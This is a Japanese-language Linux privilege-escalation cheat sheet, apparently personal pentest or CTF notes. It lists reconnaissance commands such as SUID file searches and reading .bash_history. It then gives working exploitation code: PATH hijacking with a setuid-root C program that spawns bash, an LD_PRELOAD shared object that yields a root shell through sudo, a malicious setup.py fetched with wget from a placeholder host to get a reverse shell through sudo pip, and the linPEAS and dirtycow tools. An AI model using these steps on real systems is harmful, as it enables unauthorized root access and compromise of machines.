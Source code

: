 # 権限昇格

## 偵察

### 特定ユーザーが所有するファイル一覧

```shell
find / -user <name> -type f 2>/dev/null
```

### SUID が設定されているファイルを検索

```shell
$ find / -perm 04000 -type f -ls 2>/dev/null
# or
$ find / -perm -u=s -type f -ls 2>/dev/null

# SGIDはこう
$ find / -perm 02000 -type f -ls 2>/dev/null
```

### .bash_history

```shell
cat .bash_history
```

### キーワードでファイル検索

-I でバイナリファイルを除き、/dev/null でファイル名も出力されるようにしている

```shell
find . -type f -exec grep -i -I "ABCDE" {} /dev/null \;
```

### linux-exploit-suggester

```shell
cd /usr/share/linux-exploit-suggester
./linux-exploit-suggester.sh -k 2.6.32
```

## suid 付きプログラムの解析

### プログラムが読み込む so やその他のファイル 等を調べる

so を配置可能な場合、so の初期化処理で任意のコードを実行できる

```shell
strace ../bin/foo 2>&1

# grep
strace ../bin/foo 2>&1 | grep -i -E "open|access|no such file"
```

### プログラムに含まれる文字列を調べる

```shell
$ strings ../bin/foo
abc
...
service httpd start
...
```

### PATH 挿入による実行ファイル差し替え

```shell
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH

# serviceを実行するのが分かっているSUID付きのプログラム
../bin/foo
```

## sudo 関連

権限のないユーザーが実行するとインシデント通知が出る可能性があるので注意！

```shell
sudo -l
```

### env_reset, env_keep+=LD_PRELOAD が許可されている場合

x.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

/* soロード時に呼ばれる */
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

/* 現在はコンストラクタ属性による初期化の方が強く推奨されており、互換性も高い
__attribute__((constructor))
void initialize_library() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
*/
```

```shell
$ gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
$ sudo LD_PRELOAD=/tmp/x.so nmap
#
```

### sudo pip install が許可されている場合

不正な setup.py を使うことで、root でリバースシェルの起動が可能  
https://github.com/0x00-0x00/FakePip/tree/master

```shell
wget http://<ip>/setup.py
sudo pip install . --upgrade
```

（ちなみに）ユーザーごとにインストールしたい場合はこれでよい

```shell
pip install --user
```

## cron 関連

```shell
cat /etc/crontab

ls -al /etc/cron*
```

## ツール

### linPEAS

サジェスターツール  
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```shell
wget http://<ip>/linpeas.sh
chmod +x ./linpeas.sh
./linpeas.sh
```

### dirtycow

有名特権昇格ツール  
https://www.exploit-db.com/download/40611

```shell
$ gcc cow.c -pthread -o dcw
$ ./dcw
^C
$ pwd
#
```

